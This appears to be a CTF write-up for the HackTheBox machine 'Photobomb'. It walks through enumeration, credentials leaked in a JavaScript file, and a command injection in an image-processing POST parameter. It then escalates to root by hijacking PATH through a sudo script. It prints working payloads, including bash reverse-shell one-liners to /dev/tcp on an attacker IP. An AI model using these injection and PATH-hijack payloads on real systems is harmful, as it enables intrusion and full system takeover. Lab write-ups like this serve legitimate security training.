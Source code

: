 ```yaml
---
title: Photobomb
date: 2022-10-20 12:00:00
categories: [HTB,CTF]
tags: [htb]
---
```


We are going to exploit Photobomb on Hackthebox.  
After we inspected the Application we will find out that the Credentials for the enpoint `/printer` are leaked in a java script file.  
To get a foothold we will exploit a command injection vulnerability in the image processor and escalate to root using sudo.  

# Enumeration

## Rustscan

We will start by doing a quick scan using Rustscan and identify that Port 22 and 80 are open.

| Port | Service               |
| ---- | --------------------- |
| 22   | OpenSSH 8.2p1 Ubuntu  |
| 80   | nginx 1.18.0 (Ubuntu) |

`sudo rustscan -t 1500 -b 1500 --ulimit 65000 -a 10.129.224.239 -- -sV -sC -oA ./{{ip}}`
```bash
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

Open 10.129.224.239:22
Open 10.129.224.239:80

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Feroxbuster

Let's see if we can find any interesting files using feroxbuster

`feroxbuster -u http://photobomb.htb/ -t 20 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt --no-recursion -k -B -x "zip,rar,txt,html,php,js,7z" -v -e -o ./ferox.txt`

```bash
200      GET        7l       27w      339c http://photobomb.htb/photobomb.js
401      GET        7l       12w      188c http://photobomb.htb/printer
200      GET       22l       95w      843c http://photobomb.htb/
```

## Website and Files

When we visit the site [http://photobomb.htb](http://photobomb.htb) we are greeted with a message that we have to click to get started. The credentials are in our welcome pack according to the site.
Since we haven't received a "welcome pack" and get asked for a username and password on [http://photobomb.htb/printer](http://photobomb.htb/printer) we inspect the application more and check `photobomb.js`

### photobomb.js

Great we found credentials to visit the restricted section.
There are two ways we can use that info
1. Set a cookie `document.cookie="isPhotoBombTechSupport=1"`
2. Use `pH0t0:b0Mb!` as credentials

```javascript
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

### /printer

On visiting [http://photobomb.htb/printer](http://photobomb.htb/printer) there's not much to discover except some images that we can select, setting the file type, a resolution and a buttong to download photo to print.
That's exactly what happens when we select an image and hit `Download photo to print`, after some time we are able to download a file.

# Exploitation

## Shell

Burp will help us to enumerate that behavior and request we are sending to the application further.
We will discover that the Application takes three parameters and we're sending a POST request to the image processor backend.

**POST Request**

That's how the POST Request looks like when we just hit `Download photo to print`.

```http
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 222
Origin: http://photobomb.htb
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/printer
Upgrade-Insecure-Requests: 1

photo=finn-whelen-DTfhsDIWNSg-unsplash.jpg&filetype=png&dimensions=600x400
```

**Command Injection**

After playing around we discover that the `filetype` paramter seems to behave akward when we add `;id` for example. 
Instead of generating an Image we get the message `Failed to generate a copy of finn-whelen-DTfhsDIWNSg-unsplash.jpg`
Let's get a shell by executing a payload and don't forget to URL encode it.

```http
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 222
Origin: http://photobomb.htb
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/printer
Upgrade-Insecure-Requests: 1

photo=finn-whelen-DTfhsDIWNSg-unsplash.jpg&dimensions=600x400&filetype=png;bash -c 'bash -i >& /dev/tcp/10.10.10.1/80 0>&1'
```

# Escalation

## Local Enumeration

During enumeration there was a possible privilege escalation vector discovered.
We are able to run `/opt/cleanup.sh` as root and have privileges to set an enviroment variable.

**Sudo Privileges**

```bash
(remote) wizard@photobomb:/home/wizard$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

**cleanup.sh**

```bash
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

## Privilege Escalation

Checking `/opt/cleanup.sh` reveals that `find` is called without an absolute path to the binary and relies on the `PATH` environment variable.
Let's create a new folder called `bin` in our home directory, a binary called `find` in our new folder containing a reverse shell payload

**find**

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.1/81 0>&1
```

Make it executable and start `cleanup.sh`

`sudo PATH=/home/wizard/bin:$PATH /opt/cleanup.sh`

We will now receive a connection back on our listener and have a ROOT Shell